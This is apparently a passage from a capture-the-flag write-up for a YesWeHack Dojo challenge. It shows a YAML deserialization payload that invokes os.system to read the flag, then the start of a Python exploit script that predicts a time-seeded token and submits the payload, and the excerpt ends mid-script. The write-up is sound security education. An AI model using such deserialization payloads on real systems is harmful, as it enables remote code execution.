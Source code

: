 Putting that all together, I used a YAML payload like:

{% code overflow="wrap" %}
```yaml
firmware:
    version: "meow"
    update: !!python/object/apply:os.system
        - "cat $FLAG"
```
{% endcode %}

Tying this altogether, we will generate our token and then submit the RCE payload with the following PoC. It can also be a good idea to add a proxy option so that you can review request/response in burp suite for debugging purposes.

{% code overflow="wrap" %}
```python
import random
import time
import email.utils
import urllib.parse as up
import re
import requests
import argparse
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

BASE = "https://dojo-yeswehack.com"
GET = BASE + "/challenge-of-the-month/dojo-43"
POST = BASE + "/api/challenges/285cec14-a511-4567-93f5-e709b0eaf9b9"

# Update with your valid JWT
JWT = ("jwt=REPLACE_ME")

# Exploit payload
YAML = """firmware:
  version: "meow"
  update: !!python/object/apply:os.system
    - "cat $FLAG"
""".strip()

FLAG_RE = re.compile(r"FLAG\{[^}]+\}")
MAX_TRIES = 5  # Retry if timing fails due to latency


def token_for(sec: int) -> str:
    random.seed(sec)
    return ''.join(random.choices('abcdef0123456789', k=16))


def server_sec(sess: requests.Session) -> int:
    hdr = sess.get(GET, timeout=5).headers['Date']
    return int(email.utils.parsedate_to_datetime(hdr).timestamp())


def main() -> None:
    ap = argparse.ArgumentParser()
    ap.add_argument(
        "--proxy", nargs="?", const="http://127.0.0.1:8080",
        help="Proxy through burp (default's to port 8080)"
    )
    args = ap.parse_args()

    s = requests.Session()
    s.headers.update({"Cookie": JWT, "User-Agent": "meow meow meow",
```